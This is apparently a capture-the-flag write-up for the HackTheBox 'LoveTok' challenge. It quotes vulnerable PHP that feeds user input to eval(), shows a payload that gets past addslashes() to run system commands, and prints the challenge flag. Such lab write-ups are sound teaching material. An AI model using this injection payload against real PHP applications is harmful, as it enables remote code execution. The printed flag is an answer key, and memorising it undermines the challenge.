

# LoveTok

> From HackTheBox: [LoveTok](https://app.hackthebox.com/challenges/lovetok)

## Solution

Download the source code and focus on `TimeModel.php`:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

We can use `Command Injection` (like that: `?format=${system($_GET['pwd'])}`) here but having to bypass `addslashes()` [function](https://www.php.net/manual/en/function.addslashes.php) because the single quote `'` is added slash.

Payload: `?format=${system($_GET[param])}&param=pwd` 

Next using `ls` and `cat` to get the flag: &#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Flag: `HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`

## References

* https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/
* https://www.php.net/manual/en/function.addslashes.php
